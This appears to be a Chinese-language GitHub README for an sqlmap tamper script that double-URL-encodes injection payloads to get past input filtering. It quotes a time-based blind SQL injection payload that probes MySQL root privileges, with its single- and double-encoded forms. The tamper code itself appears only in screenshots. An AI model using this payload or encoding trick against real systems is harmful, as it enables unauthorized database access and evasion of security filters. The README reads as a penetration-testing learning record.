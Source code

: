 # Sqlmap-DoubleUrlencode-tamper
DoubleUrlencode for sqlmap tamper

在一次渗透测试过程中，遇到了两次Url编码的案例，因此改了一个简单的tamper

# Quoete()
* 传入参数类型：字符串
* 功能：将单个字符串编码转化为 %xx 的形式
* 导入：from urllib.parse import quote
* Ps：url多个字符串编码用urlenocde()函数
## test
* payload: ' AND (SELECT 2634 FROM (SELECT(SLEEP(2-(IF((SELECT (CASE WHEN ((SELECT super_priv FROM mysql.user WHERE user=0x726f6f74 LIMIT 0,1)=0x59) THEN 1 ELSE 0 END))=1,0,2)))))aoEO) AND 'OpQi'='OpQi

sqlmap自带的urlencode效果
![image](https://user-images.githubusercontent.com/100123029/155446733-faa153e7-a949-4778-89d6-e90b7e5466de.png)

* urlencode：/%27%20AND%20%28SELECT%202634%20FROM%20%28SELECT%28SLEEP%282-%28IF%28%28SELECT%20%28CASE%20WHEN%20%28%28SELECT%20super_priv%20FROM%20mysql.user%20WHERE%20user%3D0x726f6f74%20LIMIT%200%2C1%29%3D0x59%29%20THEN%201%20ELSE%200%20END%29%29%3D1%2C0%2C2%29%29%29%29%29aoEO%29%20AND%20%27OpQi%27%3D%27OpQi

* doubleurlencode：%25%32%37%25%32%30%41%4e%44%25%32%30%25%32%38%53%45%4c%45%43%54%25%32%30%32%36%33%34%25%32%30%46%52%4f%4d%25%32%30%25%32%38%53%45%4c%45%43%54%25%32%38%53%4c%45%45%50%25%32%38%32%2d%25%32%38%49%46%25%32%38%25%32%38%53%45%4c%45%43%54%25%32%30%25%32%38%43%41%53%45%25%32%30%57%48%45%4e%25%32%30%25%32%38%25%32%38%53%45%4c%45%43%54%25%32%30%73%75%70%65%72%5f%70%72%69%76%25%32%30%46%52%4f%4d%25%32%30%6d%79%73%71%6c%2e%75%73%65%72%25%32%30%57%48%45%52%45%25%32%30%75%73%65%72%25%33%44%30%78%37%32%36%66%36%66%37%34%25%32%30%4c%49%4d%49%54%25%32%30%30%25%32%43%31%25%32%39%25%33%44%30%78%35%39%25%32%39%25%32%30%54%48%45%4e%25%32%30%31%25%32%30%45%4c%53%45%25%32%30%30%25%32%30%45%4e%44%25%32%39%25%32%39%25%33%44%31%25%32%43%30%25%32%43%32%25%32%39%25%32%39%25%32%39%25%32%39%25%32%39%61%6f%45%4f%25%32%39%25%32%30%41%4e%44%25%32%30%25%32%37%4f%70%51%69%25%32%37%25%33%44%25%32%37%4f%70%51%69

* BP 
![image](https://user-images.githubusercontent.com/100123029/155447021-079fb7df-962c-4fcf-9be0-7e383a3918b1.png)

* test.py
![image](https://user-images.githubusercontent.com/100123029/155448429-8c361ae5-c4bb-4b40-8167-090dbe0a09c4.png)

* tamper
![image](https://user-images.githubusercontent.com/100123029/155448629-4f26eacd-918d-48df-b6d3-5ce2e506306f.png)

* 效果
![image](https://user-images.githubusercontent.com/100123029/155449152-7d2bb427-abe0-4290-9675-5cb0570ce86f.png)
# 学习记录

